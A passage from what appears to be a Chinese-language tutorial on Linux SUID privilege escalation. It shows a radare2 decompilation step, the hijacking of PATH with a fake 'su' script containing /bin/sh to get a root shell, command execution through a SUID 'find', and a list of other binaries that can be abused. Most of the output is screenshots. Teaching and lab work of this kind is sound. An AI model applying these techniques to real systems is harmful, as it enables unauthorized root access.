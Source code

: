    ![查找suid权限](https://minioapi.laffrex.top/laffrex/pictures/2024/10/29/202410291708659.png)

2. 查看文件内容

   * 通过反编译demo文件发现，该文件的 suid 操作通过 root 权限切换到其他用户。可通过伪造 su 命令，将恶意 su 文件或su文件所在目录添加到环境变量，篡改 su 的查找顺序，从而在执行 su 时运行自定义的 su 文件

     ```apl
     r2 -A demo		#启动Radare2，进入反编译模式
     pdc @ main		#生成类似于c语言的伪代码
     ```

     

   ![反编译内容](https://minioapi.laffrex.top/laffrex/pictures/2024/10/29/202410291859642.png)

3. 上传一个su文件到/tmp目录，并赋予该文件可执行权限

   ```bash
   echo "/bin/sh" > su
   chmod 777 su
   ```

   ![生成su文件](https://minioapi.laffrex.top/laffrex/pictures/2024/10/29/202410291919755.png)

   ![查看修改的权限](https://minioapi.laffrex.top/laffrex/pictures/2024/10/29/202410291919171.png)

4. 将/tmp目录添加到环境变量中

   ![添加环境变量](https://minioapi.laffrex.top/laffrex/pictures/2024/10/29/202410291915449.png)

5. 尝试执行demo文件，成功提权

   ![成功提权](https://minioapi.laffrex.top/laffrex/pictures/2024/10/29/202410291921949.png)

#### (2). find提权

1. 查找find指令是否权限为suid

   ```apl
   find /usr/bin -type f -name "find" -perm /4000
   ```

   ![查看权限](https://minioapi.laffrex.top/laffrex/pictures/2024/10/29/202410291924064.png)

2. 直接通过find指令，执行命令

   ```apl
   find test -exec "whoami" \;
   ```

   ![执行命令](https://minioapi.laffrex.top/laffrex/pictures/2024/10/29/202410291926850.png)

#### (3). 其他命令提权

* bash、less、**more**、man、**Python**、perl、ruby、lua、**awk**、**tcpdump**等
